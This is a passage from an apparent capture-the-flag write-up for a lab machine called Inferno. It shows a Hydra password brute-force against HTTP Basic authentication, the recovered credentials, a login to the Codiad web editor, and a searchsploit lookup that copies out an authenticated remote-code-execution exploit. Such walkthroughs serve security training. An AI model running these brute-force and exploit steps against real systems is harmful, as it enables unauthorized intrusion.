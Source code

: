 ## Brute force the web authentication

Browsing this new resource requires an authentication (HTTP Basic authentication). We can assume that `admin` would be a valid user, let's try to brute force the password:

~~~
┌──(kali㉿kali)-[/data/Inferno]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.131.118 http-get /inferno
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-05 15:01:41
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://10.10.131.118:80/inferno
[STATUS] 1669.00 tries/min, 1669 tries in 00:01h, 14342730 to do in 143:14h, 16 active
[STATUS] 1760.33 tries/min, 5281 tries in 00:03h, 14339118 to do in 135:46h, 16 active
[STATUS] 1845.43 tries/min, 12918 tries in 00:07h, 14331481 to do in 129:26h, 16 active
[80][http-get] host: 10.10.131.118   login: admin   password: dante1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-05 15:09:23
~~~

Valid combination found: `admin:dante1`

## Codiad

We land to another authentication page, that accepts the same credentials as the HTTP Basic authentication.

We are now in "Codiad", an online editor.

I tried to modify PHP files and to upload PHP files, but it failed, as we don't have write privileges.

## Exploit

Searching for exploits affecting codiad reveals 3 exploits, 1 of which being an RCE.

~~~
┌──(kali㉿kali)-[/data/Inferno]
└─$ searchsploit codiad
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Codiad 2.4.3 - Multiple Vulnerabilities                                           | php/webapps/35585.txt
Codiad 2.5.3 - Local File Inclusion                                               | php/webapps/36371.txt
Codiad 2.8.4 - Remote Code Execution (Authenticated)                              | multiple/webapps/49705.py
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                    
┌──(kali㉿kali)-[/data/Inferno/files]
└─$ searchsploit -m 49705
  Exploit: Codiad 2.8.4 - Remote Code Execution (Authenticated)
      URL: https://www.exploit-db.com/exploits/49705
~~~